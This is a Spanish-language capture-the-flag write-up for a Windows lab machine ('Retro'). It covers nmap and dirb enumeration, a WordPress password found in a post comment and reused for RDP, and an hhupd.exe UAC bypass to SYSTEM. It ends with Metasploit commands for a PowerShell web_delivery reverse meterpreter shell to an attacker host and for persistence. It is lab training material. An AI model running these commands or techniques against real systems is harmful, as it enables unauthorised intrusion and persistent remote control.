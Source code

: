 # Reconocimiento

## `Escaneo de maquina
nmap -sS --min-rate 5000 -sCV -Pn -p- --open -n 10.10.204.60 -oN tcp_scan

#### `OUTPUT:
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-13T00:25:31+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-03-13T00:25:27+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2024-03-12T00:24:31
|_Not valid after:  2024-09-11T00:24:31
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

#### Visualización web

![[Pasted image 20240313004651.png]]

Podemos ver el frontend por defecto de windows IIS server.

#### Versión del OS via RDP

![[Pasted image 20240312220032.png]]

Reconocimiento crackmapexec modulo rdp
``OS/Versión: Windows 10 o Windows Server 2016 Build 14393
## Fuzzing de directorios web con DIRB

Hare uso de la herramienta dirb en busca de algún directorio.

dirb http://10.10.252.250 /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -o web_fuzzing.txt

![[Pasted image 20240312234841.png]]

Confirmamos que la web exista y vemos su contenido, podemos observar un usuario potencial llamado wade

![[Pasted image 20240312235605.png]]

Volvemos a enumerar directorios esta vez sobre la raiz/retro

![[Pasted image 20240313001231.png]]

Confirmamos que es un wordpress el cms que corre, y hare una busquedad de archivos .php dentro de la carpeta que contiene el cms con dirb

dirb http://10.10.252.250/retro /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -X .php

![[Pasted image 20240313001835.png]]

Encontramos el login del wordpress, y podemos ver la validación de usuario existente, haremos uso de esto para listar usuarios potenciales

![[Pasted image 20240313002154.png]]

Usando el usuario potencial recolectado anteriormente llamado wade, podemos ver que si existe un usuario con este nombre, por lo que perfilaremos una ataque de fuerza bruta con hydra para conseguir las credenciales.

# Acceso inicial
## Navegando por la web

Al intentar ingresar en el panel de wordpress, via fuerza bruta o ataque de directorio, vemos que no es posible. Recorriendo nuevamente la web, podemos encontrar un comentario dentro de una publicación de wade que parece ser una credencial.

![[Pasted image 20240313005742.png]]

Podemos contemplar que wade dejo una nota para el mismo, en caso de que lo olvidara, procedemos a intentar hacer uso de la credencial.

![[Pasted image 20240313010042.png]]
![[Pasted image 20240313020056.png]]

Logramos entrar dentro del wordpress, pero por una mala practica de reutilización de contraseñas también es posible entrar directamente desde el rdp, entraremos con las credenciales y tomaremos la bandera.

![[Pasted image 20240313011201.png]]

Vemos que tenemos acceso al ordenador, y buscamos la bandera user.txt

# Escalada de privilegios

`Bypass del UAC de administrador Windows

Del resultado de una búsqueda en el navegador podemos ver que el ejecutable del escritorio hhupd, es vulnerable a un bypass, podríamos intentar invocar una shell inversa, o un archivo .php pero el antivirus/firewall lo capa, así que sigamos este camino. 



![[Pasted image 20240313012836.png]]

Podemos ver la información del certificado, y abrirlo en el navegador web lo cual daría la siguiente respuesta 

![[Pasted image 20240313013424.png]]

Nos aparecera que la locación del archivo no esta accesible, luego abriremos el directorio system usando el nombre c:\\windows\\system32\\\*.\* en el campo de nombre y pudiendo acceder a cmd.exe, desde el usuario NT AUTHORITY\\SYSTEM

![[Pasted image 20240313013824.png]]

![[Pasted image 20240313014219.png]]

Buscamos la bandera de root, dentro del escritorio del usuario administrador y finalizamos la maquina

![[Pasted image 20240313014611.png]]

# Metaesploit

 Ya que sabemos que nuestra máquina víctima está ejecutando Windows Defender, ¡vamos a probar un método diferente de entrega de la carga útil! Para ello, vamos a utilizar el exploit de entrega web script dentro de Metasploit. Inicie Metasploit ahora y seleccione 'exploit/multi/script/web_delivery' para su uso.

msfconsole
use exploit/multi/script/web_delivery

En primer lugar, establezcamos el objetivo en PSH (PowerShell). ¿Qué número de objetivo es PSH?

show targets

set target 2

Después de configurar el payload, configuramos el lhost y lport.

set lhost <attacker ip>set lport <attacker port>

En este caso, usaremos un simple payload HTTP inverso. Hazlo ahora con el comando 

set payload windows/meterpreter/reverse_http
run -j

show options
set srvport 8000
run -j

run persistence -X
run persistence -X -r <attcker ip>

background
use exploit/multi/handle
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST <attacker ip>
set LPORT 1234 
show options

sessions 1
reboot
